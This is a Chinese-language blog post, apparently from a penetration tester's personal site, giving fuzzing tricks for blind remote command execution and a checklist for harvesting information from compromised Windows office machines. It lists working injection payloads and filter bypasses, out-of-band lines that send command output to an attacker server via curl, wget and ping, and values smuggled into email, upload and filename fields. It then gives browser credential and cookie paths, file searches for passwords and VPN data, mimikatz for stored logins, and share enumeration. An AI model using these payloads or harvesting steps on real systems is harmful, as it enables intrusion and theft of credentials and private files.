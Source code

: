 ```yaml
---
layout: post
toc: true
title: "「Fuzz」:浅谈一些模糊匹配搜集信息的技巧"
author: Bin4xin
categories:
    - blog
tags:
    - 笔记
    - fuzz
    - 信息搜集
---
```


写在文前：

> 我们在web攻防期间有很多时候有一种感觉：那就是遇到rce漏洞时，bp放包的时候有一种隐隐的感觉，有的时候bp的反包字节大小莫名其妙的怪异，有经验的老师傅就索性直接跑RCE的fuzz字典，所以本篇就日常记录一些有关于web攻防期间的一些fuzz技巧

# 服务器RCE的fuzz技巧

* Windows机器的fuzz

即我们可以在关键参数后面使用管道符号和连接符fuzz命令执行实现我们的盲打：

`||和&`
 
* linux机器的fuzz

同上

`||和&`

* Linux下过滤空格可以使用:
```
${IFS},$IFS,$IFS$9
```

* JSON格式下的测试:
```
\u000awget\u0020 http://ip
```

Linux下可以包括反引号，windows下不可以。

## Linux下正常测试rce:
```bash
服务器启动web，注意需要处于监听状态下启动：

bin4xin@bin4xin's MacbookPro tools % python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...

```
rce fuzz命令如下：
```bash
bin4xin@bin4xin's MacbookPro tools % curl 192.168.101.51:8000/`whoami`
```
同时我们反过来看web日志记录：
```bash
::ffff:192.168.101.51 - - [19/Sep/2020 13:57:25] "GET /bin4xin HTTP/1.1" 301 -
```
同理各位可以发散思维：

ping `whoami`.服务器地址

如上，ping、curl同样适用。


一些特殊字符绕过姿势:

```bash
curl http://服务器地址/$(whoami)

curl http://服务器地址/$(whoami|base64)

'w'g'e't${IFS}服务器地址
```
各位可以自行实验在linux下的效果。

## Windows探测:

fuzz技巧是一样的，只是fuzz命令有一些区别；
```bash
ping %USERNAME%.服务器地址
------
(获取计算机名)
for /F %x in ('whoami') do start http://服务器地址/%x
------
(获取用户名称)
for /F "delims=\ tokens=2" %i in ('whoami') do ping -n 1 %i.服务器地址
------
测试邮箱:`wget%209服务器地址/xxxx`@qq.com

测试上传:`sleep 10`filename

测试filenname:`||wget%20服务器地址`

测试上传处下的名称: ;payload|payload&payload
;whoami|whoami&whoami
------
```

# 个人机器信息收集

1. 浏览器[Chrome,Firefox,Edge,IE,360,QQ ]信息(历史记录，密码，书签，cookie)：

   ```
   %LocalAppData%\Google\Chrome\User Data\Default
   %APPDATA%\Mozilla\Firefox\Profiles\xxxxxxxx.default\
   ```

2. 机器内敏感文件，关键词：账号、密码、备份、登录、管理、邮箱、后台、资产、网络

   ```
   for /r D:\ %i in (*密码*) do @echo %i
   for /r D:\ %i in (*vpn*) do @echo %i
   for /r D:\ %i in (*账号*) do @echo %i
   ```

3. 机器进程

   * 杀软/edr
   * teamviewer/等远程管理工具
   * 服务类进程：mssql/java/web服务

4. 安装软件列表

5. 当前windows 凭证管理器存储的密码

   * 登录密码（mimikatz）

   * wifi密码

   * outlook密码

   * ……

6. 机器开放端口信息/防火墙信息/获取机器共享

   ```
   netstat -naop
   wmic share  get name,path,status  #利用wmic查找共享
   ```

7. 获取机器所有rdp连接记录

8. 获取所有盘符

   ```
   wmic logicaldisk where drivetype=3 get name,freespace,systemname,filesystem,volumeserialnumber,size #查看分区
   ```

9. 获取全盘所有敏感文件

   .doc\xlsx\md\sql\ppt*\txt

   ```
   for /r D:\ %i in (*.doc) do @echo %i
   for /r D:\ %i in (*.xlsx) do @echo %i
   for /r D:\ %i in (*.ppt*)) do @echo %i
   ```

10. 本地环境
    * hosts
    * 环境变量
    * 补丁列表
    * 当前主机的会话信息

工作不饱和 总结了一下个人办公机信息收集思路